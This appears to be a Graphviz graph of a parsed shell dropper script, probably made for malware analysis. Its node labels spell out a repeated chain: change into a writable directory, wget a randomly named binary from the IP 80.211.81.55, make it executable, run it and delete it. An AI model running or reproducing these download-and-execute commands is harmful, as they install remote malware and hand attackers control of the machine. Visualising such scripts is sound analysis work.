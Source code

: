 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://80.211.81.55/earyzq "];
10 -> 12 [label=";,"];
12 [label="chmod +x earyzq "];
12 -> 14 [label=";,"];
14 [label="./earyzq "];
14 -> 16 [label=";,"];
16 [label="rm -rf earyzq "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://80.211.81.55/cemtop "];
28 -> 30 [label=";,"];
30 [label="chmod +x cemtop "];
30 -> 32 [label=";,"];
32 [label="./cemtop "];
32 -> 34 [label=";,"];
34 [label="rm -rf cemtop "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://80.211.81.55/vtyhat "];
46 -> 48 [label=";,"];
48 [label="chmod +x vtyhat "];
48 -> 50 [label=";,"];
50 [label="./vtyhat "];
50 -> 52 [label=";,"];
52 [label="rm -rf vtyhat "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://80.211.81.55/vvglma "];
64 -> 66 [label=";,"];
66 [label="chmod +x vvglma "];
66 -> 68 [label=";,"];
68 [label="./vvglma "];
68 -> 70 [label=";,"];
70 [label="rm -rf vvglma "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://80.211.81.55/nvitpj "];
82 -> 84 [label=";,"];
84 [label="chmod +x nvitpj "];
84 -> 86 [label=";,"];
86 [label="./nvitpj "];
86 -> 88 [label=";,"];
88 [label="rm -rf nvitpj "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://80.211.81.55/razdzn "];
100 -> 102 [label=";,"];
102 [label="chmod +x razdzn "];
102 -> 104 [label=";,"];
104 [label="./razdzn "];
104 -> 106 [label=";,"];
106 [label="rm -rf razdzn "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://80.211.81.55/lnkfmx "];
118 -> 120 [label=";,"];
120 [label="chmod +x lnkfmx "];
120 -> 122 [label=";,"];
122 [label="./lnkfmx "];
122 -> 124 [label=";,"];
124 [label="rm -rf lnkfmx "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://80.211.81.55/qvmxvl "];
136 -> 138 [label=";,"];
138 [label="chmod +x qvmxvl "];
138 -> 140 [label=";,"];
140 [label="./qvmxvl "];
140 -> 142 [label=";,"];
142 [label="rm -rf qvmxvl "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://80.211.81.55/ajoomk "];
154 -> 156 [label=";,"];
156 [label="chmod +x ajoomk "];
156 -> 158 [label=";,"];
158 [label="./ajoomk "];
158 -> 160 [label=";,"];
160 [label="rm -rf ajoomk "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://80.211.81.55/fwdfvf "];
172 -> 174 [label=";,"];
174 [label="chmod +x fwdfvf "];
174 -> 176 [label=";,"];
176 [label="./fwdfvf "];
176 -> 178 [label=";,"];
178 [label="rm -rf fwdfvf "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://80.211.81.55/atxhua "];
190 -> 192 [label=";,"];
192 [label="chmod +x atxhua "];
192 -> 194 [label=";,"];
194 [label="./atxhua "];
194 -> 196 [label=";,"];
196 [label="rm -rf atxhua "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://80.211.81.55/qtmzbn "];
208 -> 210 [label=";,"];
210 [label="chmod +x qtmzbn "];
210 -> 212 [label=";,"];
212 [label="./qtmzbn "];
212 -> 214 [label=";,"];
214 [label="rm -rf qtmzbn "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://80.211.81.55/adcvds "];
226 -> 228 [label=";,"];
228 [label="chmod +x adcvds "];
228 -> 230 [label=";,"];
230 [label="./adcvds "];
230 -> 231 [label=";,"];
}
